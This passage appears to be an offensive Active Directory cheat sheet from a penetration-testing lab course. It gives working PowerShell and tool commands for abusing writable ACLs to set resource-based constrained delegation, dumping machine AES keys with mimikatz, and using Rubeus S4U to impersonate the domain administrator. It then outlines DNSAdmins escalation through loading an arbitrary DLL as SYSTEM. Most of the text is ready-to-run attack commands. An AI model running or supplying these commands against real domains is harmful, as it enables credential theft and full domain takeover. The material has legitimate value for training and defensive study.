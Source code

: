 ```powershell
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
Get-DomainRBCD

cd ADModule-master
Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose
Import-Module .\ActiveDirectory\ActiveDirectory.psd1
```

**Set RBCD on dcorp-mgmt for the student VMs**:

{% code overflow="wrap" %}
```powershell
Set-DomainRBCD -Identity hostname-target-from-find-interesting-acl -DelegateFrom 'your-machine-account$' -Verbose

Set-ADComputer -identity hostname-target-from-find-interesting-acl -PrincipalsAllowedToDelegateToAccount 'your-machine-account$'
```
{% endcode %}

**Get your own Machine Account AES-Hash**

```powershell
Invoke-mimikatz -command '"sekurlsa::ekeys"'
```

**Access the machine with our AES key with ANY user we want**

{% code overflow="wrap" %}
```powershell
rubeus.exe s4u /user:hostname$ /aes256:aes-hash-of-hostname$-from-above /msdsspn:http/target-host /impersonateuser:administrator /ptt    

Winrs -r:target-host
```
{% endcode %}



## 🤖DNSAdmins Privilege Escalation

### Description

* It is possible for the members of the DNSAdmins group to load arbitrary DLL with the privileges of dns.exe (SYSTEM)
* In case the DC also servers as DNS, this will provide us escalation to DA
* Need privileges to restart the DNS service
* If we compromise an account, which is a member of the DNSAdmins Group, we can get DA

### Requirement

* DC serves also as DNS Server
* We compromised a User, wrho is member of DNSAdmins Group
* Misonfiguration which is needed: DNSAdmins group, need the privs to restart the DNS Service - this is by default disabled. &#x20;
